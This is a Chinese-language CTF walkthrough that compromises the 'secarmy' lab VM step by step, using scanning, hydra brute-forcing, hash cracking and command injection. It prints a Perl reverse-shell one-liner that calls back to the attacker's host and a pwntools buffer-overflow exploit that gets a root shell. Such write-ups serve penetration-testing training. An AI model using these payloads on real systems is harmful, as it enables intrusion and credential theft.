# 前言

靶机：`secarmy`靶机，IP地址为`192.168.10.12`

攻击：`kali`，IP地址为`192.168.10.6`

靶机和攻击机都采用`VMware`虚拟机，都采用桥接网卡模式

> 文章涉及的靶机及工具，都可以自行访问官网或者项目地址进行获取，或者通过网盘链接下载 `https://pan.quark.cn/s/c815e138ad02`

# 主机发现

也就是相当于现实环境中去发现确定主机的`ip`地址，因为这里是靶机环境，所以跳过了从域名到`ip`地址的过程。

使用`arp-scan -l`或者`netdiscovery -r 192.168.10.1/24`

当然也可以使用`nmap`等工具进行

```
arp-scan -l
```



# 信息收集

## 使用nmap扫描目标端口等信息

首先扫描目标的`tcp`端口的开放情况

```shell
nmap -sT --min-rate=1000 192.168.10.12 -p- -oA nmap-tcp
```



再扫描`udp`端口的开放情况

```shell
nmap -sU --min-rate=1000 192.168.10.12 --top-ports 20 -oA nmap-udp
```



可以看到明确开放的`udp`端口没有，所以下面对`tcp`端口进行一个筛选，这里因为`22`端口并不是明确`closed`的，是`filtered`的，所以也要包括在内

```shell
ports=`grep /tcp nmap-tcp.nmap | awk -F'/' '{print $1}' | paste -sd ','`
```



进一步对这些端口进行服务、系统等探测

```shell
nmap -sV -O -sC 192.168.10.12 -p $ports --min-rate=1000
```







再使用`nmap`的漏洞检测脚本对这些端口进行探测

```shell
nmap --script=vuln 192.168.10.12 -p $ports
```



## FTP信息探测

之前使用`nmap`扫描的时候，已经确定是可以匿名登录的，那么这里登录看看有什么

```shell
ftp anonymous@192.168.10.12
```



可以看到，没有任何信息

## 80端口探测

使用浏览器访问，可以发现提示，像关卡一样



使用`whatweb`或`wappalyzer`识别网站配置

```shell
whatweb http://192.168.10.12 -v
```





根据提示，使用一些工具进行目录爆破

```shell
#根据提示，这里只做了目录爆破，一些扩展文件名并没加上
gobuster dir -u http://192.168.10.12 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt -b 404,403
```



访问`anon`，提示这里有凭证



但是明显没有看到，那么查看页面源代码



这一组凭证保存下来，放置在文件`cret.txt`中

```shell
uno:luc10r4m0n
```

使用`hydra`进行验证这一组凭证，因为有两个端口21和22

```shell
#验证ftp服务
hydra -C cret.txt 192.168.10.12 ftp
#验证ssh服务
hydra -C cret.txt 192.168.10.12 ssh
```



可以看到，都能够登录

# FTP登录

以用户名`uno`和密码`luc10r4m0n`登录到`ftp`

```shell
ftp uno@192.168.10.12
```



可以看到目录是其主目录下，这里虽然`ssh`可以直接登录，但是还是需要知道`ftp`的一些命令，所以把这些文件下载到`kali`。

```shell
prompt	#关闭交互
mget *	#下载所有
```

这里在`kali`直接查看下载的文件即可，可以看到一个密码`4b3l4rd0fru705`，这里让我们猜测哪个用户名的密码是这个



## 用户名爆破

利用前面的用户名`uno`和密码`luc10r4m0n`登录

毕竟`ftp`有限，有东西检测不出

```shell
ssh uno@192.168.10.12
```

登录后，根据前面的提示，查看当前系统有哪些用户，毕竟知道一个密码了，下面就是针对性的爆破

```shell
ls -l /home
cat /etc/passwd | grep /bin/bash
```



使用`awk`把用户名留下

```shell
ls -l /home | awk -F'2020 ' '{print $2}'
cat /etc/passwd | grep /bin/bash | awk -F':x' '{print $1}'
```



把这些用户名，保存在`kali`中的`user.txt`文件中，然后使用`hydra`针对密码`4b3l4rd0fru705`进行爆破

```shell
hydra -L user.txt -p 4b3l4rd0fru705 192.168.10.12 ssh
```



## grep妙用与编码处理

出了一个用户名匹配成功`dos`，以这个登录`ssh`，或者在原本的`uno`基础，直接`su`也是可以的

登录后，查看`readme.txt`文件，发现提示，说是要去找一个文件，文件中有`a8211ac1853a1235d48829414626512a`的文件



使用`grep`进行筛选

```shell
grep -l "a8211ac1853a1235d48829414626512a" files/*
# -l 参数是返回文件名，不返回其他
```



查看这个文件，发现在文件末尾有提示，请查看下一个文件



去查看这个文件，发现在末尾有一串字符



目前不知道作用的，继续查看文件，发现一个`1337.txt`文件，正好对应着之前扫描出的端口

查看这个文件，发现说是`netcat`工具在这个端口监听



之前的字符，可能是编码，尝试进行解码操作



`pk3`文件格式，查看一下

> PK3 是一种用于存储游戏资源的压缩文件格式，主要应用于 Quake 3 及其衍生的游戏中
>
> 可以使用 7-Zip、WinRAR 等压缩文件管理工具打开2，也可以直接将其扩展名改为.zip 后解压

那么把其输出为`1.zip`文件



解压`1.zip`文件，发现有`challenge2`文件夹，那么去看看



发现`token`值`c8e6afe38c2ae9a0283ecfb4e1b7c10f7d96e54c39e727d0e5515ba24a4d1f1b`



# 1337端口测试

那么在`kali`使用`nc`连接这个端口进行测试

```shell
nc 192.168.10.12 1337
```

连接后输入上面获取的`token`值



获取一组凭据`tres:r4f43l71n4j3r0`

切换用户后，去其主目录下，查看文件



翻译一下这段话，可以得知`secarmy-village`这个文件



该文件是一个可执行文件

```shell
file secarmy-village
```



# strings查看与UPX解壳

借助工具`strings`，发现该文件中涉及的信息具有加壳的

```shell
strings secarmy-village
```



那么把文件`secarmy-village`下载到`kali`，因为靶机没有`upx`加解壳工具

```shell
scp tres@192.168.10.12:/home/tres/secarmy-village ./
```

然后在`kali`执行`upx`工具

```shell
upx -d secarmy-village
```



然后再使用`strings`进行查看

```shell
strings secarmy-village
```



发现凭证`cuatro:p3dr00l1v4r3z`，以这个身份继续，然后查看主目录文件，发现提示一个网站目录`/justanothergallery`，并且说是图片



# 二维码批量解析

访问`/justanothergallery`，查看网站中的信息，发现是多个二维码，所以使用`wget`下载网站中的二维码图片到`kali`中

```shell
wget -r -A.png http://192.168.10.12/justanothergallery
```



这里可以按照书讯先排列一下

```shell
ls -l | awk -F'2020 ' '{print $2}' | sort -t '-' -k2 -n > seq.txt
#这里的awk是根据参数进行的筛选

#删除空行
sed -i '/^$/d' seq.txt
```

然后借助工具`zbarimg`，这是`zbar-tool`工具集，所以需要先安装

编写代码，使得可以一次进行解析

```shell
while IFS= read -r filename; do
        if [ -f "$filename" ];then
                echo "解析中 : $filename"
                result=$(zbarimg "$filename")
                if [ -z "result" ];then
                        echo "没有解析 $filename"
                else
                        echo "解析的结果 : $result"
                        echo "$result" >> result.txt
                fi
        else
                echo "文件 $filename 不存在"
        fi
done < seq.txt
```

然后执行`bash seq.sh`



然后查看输出的结果文件`result.txt`



这里有点不好看，可以使用`awk`进一步进行筛选

```shell
cat result.txt | awk -F':' '{print $2}' | paste -sd ' '
```



这里获取到凭据`cinco:ruy70m35`

# hash暴力破解

切换到该用户，并查看其主目录下的文件



可以看到提示，说是`cinco`用户的密码空间，在主目录之外，去搜索看看

```shell
find / -user cinco 2>/dev/null
```



然后切换到这个目录去查看，发现只有写权限



那么使用`chmod`改变权限，因为文件的所有者是`cinco`的

```shell
chmod 777 shadow.bak
cat shadow.bak
```

发现备份文件中，只有一个用户`seis`是有密码的

```shell
seis:$6$MCzqLn0Z2KB3X3TM$opQCwc/JkRGzfOg/WTve8X/zSQLwVf98I.RisZCFo0mTQzpvc5zqm/0OJ5k.PITcFJBnsn7Nu2qeFP8zkBwx7.:18532:0:99999:7:::
```



使用`john`或者`hashcat`进行爆破，这里的提示，估计是使用`rockyou.txt`字典

首先把上面的数据保存在`hash`文件中，然后执行`john`进行破解

```shell
john hash --wordlist=/usr/share/wordlists/rockyou.txt
```



又获得凭据`seis:Hogwarts`

# 常见的网站路径及命令执行漏洞

以这个凭据登录，然后继续查看该用户的主目录下的文件



访问网站目录`/shellcmsdashboard`，不过这里尝试访问`/var/www/html`查看有无可用的，发现一些东西



不过为了真实的从网站，所以还是浏览器访问，当然这里我就省略目录爆破了

访问`robotx.txt`，发现用户名`admin`和密码`qwerty`



尝试登录后，发现提示一个`php`路径`aabbzzee.php`



访问这个`php`文件，发现给出一个搜索框，这要么就是注入方面的，要么就是执行方面的

关于这个可以借助`burp`中的一些默认字典去测试，如这里的`fuzz-full`，当然这种内置字典一般是`pro`版本有的，也可以从`github`上去搜索字典，有这一方面的

或者`kali`自带的`wfuzz`的字典`/usr/share/wordlists/wfuzz/Injections`里面也是可以测试各种类型的



查看结果，确定有命令执行



那么尝试进行反弹`shell`，这里假设什么都不知道，就一个个测试反弹`shell`，在`perl`语言的反弹`shell`成功

```shell
perl -e 'use Socket;$i="192.168.10.6";$p=9999;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("bash -i");};'
```



查看当前目录下的文件，发现`readme9213.txt`，查看它，发现密码`6u1l3rm0p3n473`，但是不知道用户名的



# base系列的位运算

根据前面的用户名，使用`hydra`再爆破一下

```shell
hydra -L user.txt -p 6u1l3rm0p3n473 192.168.10.12 ssh
```



继续以用户`siete`和密码`6u1l3rm0p3n473`登录，然后查看用户的主目录文件



根据提示以及信息来看，这个`message.txt`的信息应该是`base10`，若是不知道的，可以去搜索一下`base10`的知识。

根据`hint.txt`，`base10`与`base256`进行`and`按位与运算，结果是 `base256`。

但是10进制的数，按位与，很难是base256的形式，这里因该是提示进行位运算。那么与谁进行运算，应该就是`key.txt`中的`x`了。不过运算也挺多的，对于按位运算后转字符的代码我不是很清楚。所以借助`ai`

```python
data = [11, 29, 27, 25, 10, 21, 1, 0, 23, 10, 17, 12, 13, 8]
char_x = ord('x')

# 按位与操作
and_result = [num & char_x for num in data]
# 按位或操作
or_result = [num | char_x for num in data]
# 按位异或操作
xor_result = [num ^ char_x for num in data]

# 将结果转换为字符形式
and_chars = ''.join(chr(num) for num in and_result)
or_chars = ''.join(chr(num) for num in or_result)
xor_chars = ''.join(chr(num) for num in xor_result)

print("按位与结果（字符形式）:", and_chars)
print("按位或结果（字符形式）:", or_chars)
print("按位异或结果（字符形式）:", xor_chars)
```

从结果来看，密码就是`secarmyxoritup`



进行解压操作，然后输入异或运算后的结果，`secarmyxoritup`




# 流量包分析与键盘密码

获取密码`m0d3570v1ll454n4`，根据前面登录了那么多用户，这里就三个用户可用了，就直接`su`测试了，不使用`hydra`了。切换到用户`ocho`



切换到其主目录查看文件，发现了一个`pcapng`的文件，这种一般是流量包的格式

当然可以在靶机使用`tcpdump`查看，但是这里不建议，因为真的是“乱花渐欲迷人眼”

把这个文件下载到`kali`，然后使用`wireshark`查看

```shell
scp ocho@192.168.10.12:~/keyboard.pcapng ./

wireshark keyboard.pcapng
```

然后查看，发现基本上就是`tcp`和`http`数据包，可以先以协议`http`进行分类查看

我这里重点关注的是有请求目录的，然后发现一个`none.txt`请求，点击`follow`，发现了一大串英文



查看这一大段英文，基本上两点，`QWERTY keybord model`，以及这一串突然大写字母的可疑字符




```
The striker lockup came when a typist quickly typed a succession of letters on the same type bars and the strikers were adjacent to each other. There was a higher possibility for the keys to become jammed. READING IS NOT IMPORTANT, HERE IS WHAT YOU WANT: "mjwfr?2b6j3a5fx/" if the sequence was not perfectly timed. The theory presents that Sholes redesigned the type bar so as to separate the most common sequences of letters: ...th..., ...he... and others from causing a jam.
```

这时候，我选择测试一下`ai`



哈哈哈哈哈哈哈，一下就出来了？

进一步解密吧，采用网站`https://www.dcode.fr/keyboard-shift-cipher`，这个比较全面



获取凭证`nueve:355u4z4rc0`


切换到用户`nueve`，然后查看主目录下的文件


在当前目录下有`orangutan`，并且具有SUID权限，只是不知道做什么的，这里使用`file`查看发现是可执行文件，再使用`strings`查看，发现应该是`c`代码，那么就需要下载到`kali`中进一步测试了



我这里采用工具`ghidra`工具进行反汇编，因为`ida`对我的电脑来说有点大了。

这里直接在`kali`输入即可安装该工具

安装后直接输入`ghidra`即可启动，这里首先需要创建一个工程，也就是`probject`，这个需要选择一个文件夹作为其工作目录，然后再导入文件到这个工程中





打开文件时，会询问是否进行分析，这里建议可以测试，这里看到右边是主代码

分析代码，可以知道，在提示出现后，进入`if`判断`local_10 == 0xcafebabe`的话，会以`root`身份执行其中的代码，具体代码分析，我在下面代码块中编写

```c
undefined8 main(void)

{
  char local_28 [24];	//定义的一个24字节的数组
  long local_10;
  
  local_10 = 0;
  setbuf(stdout,(char *)0x0);
  setbuf(stdin,(char *)0x0);
  setbuf(stderr,(char *)0x0);
  puts("hello pwner ");
  puts("pwnme if u can ;) ");
  gets(local_28);		//这里的数组接收用户的输入，可以接收24个字节
  if (local_10 == 0xcafebabe) {	//这里虽然有这个判断，但是怎么给它值
    setuid(0);
    setgid(0);
    seteuid(0);
    setegid(0);
    execvp("/bin/sh",(char **)0x0);
  }
  return 0;
}
```

其实就是缓冲区溢出，这里就是把数组24冲出去，剩余的就给了`local_10`。所以就需要构造

这里`0xcafebabe`是大端序，那么作为逆向，就需要小端序，大概为`\xbe\xba\xfe\xca`

然后再随便构造24个字节的字符，总体大概就是

```shell
#使用python生成24个a
python3 -c "print('a'*24)"        
#下面就是完整的payload
aaaaaaaaaaaaaaaaaaaaaaaa\xbe\xba\xfe\xca
```

测试一下，可以看到可以了，不是直接退出了，但是后续应该有东西的



哦，对，毕竟是在`kali`执行的，这里的可以输入，表示应该在靶机运行这个，或者还有其他的东西没有看到。那么需要指定这个二进制文件运行在哪个端口

可以借助`nc`或者`socat`，不过经测试，使用`nc`不行，无法触发，说明`nc`确实是小巧又简单，便捷。功能上确实比`socat`少了一些

```shell
#在靶机运行，使用socat
socat TCP-LISTEN:9999,fork EXEC:./orangutan
```

直接输入有问题，所以只能编写`python`代码再测试，可能是没有交互的原因？

```python
from pwn import *
a=b'aaaaaaaaaaaaaaaaaaaaaaaa'
b=b'\xbe\xba\xfe\xca'
payload=a+b
connect=remote('192.168.10.12',9999)
#根据执行文件的代码，会输出两行数据的，所以这里等待两行数据后再发送数据
print(connect.recvline())
print(connect.recvline())
connect.sendline(payload)
connect.interactive()
```

在`kali`中执行上面的代码



获取最终`flag`




# 总结

该靶机很适合刚开始学习的时候去打靶，因为该靶机把几个方向都涉及了，并且不是很深入，但也可以说入门了

1. 网站信息收集，涉及目录爆破方面的工具等
2. `linux`命令实际运用，结合起来的使用`grep、awk、ls、sed`等
3. web渗透，涉及`TOP`10漏洞，以及反弹`shell`
4. 密码爆破，涉及`hydra`工具的使用
5. 加壳与解壳，涉及`upx`工具
6. 编码与解码，这里主要`base`家族为主
7. 加密与解密
8. 流量包分析
9. 脚本编写处理数据(`python`或`shell`都要会)
10. `socat`转发流量，所谓的内网转发，把数据发到某一个端口


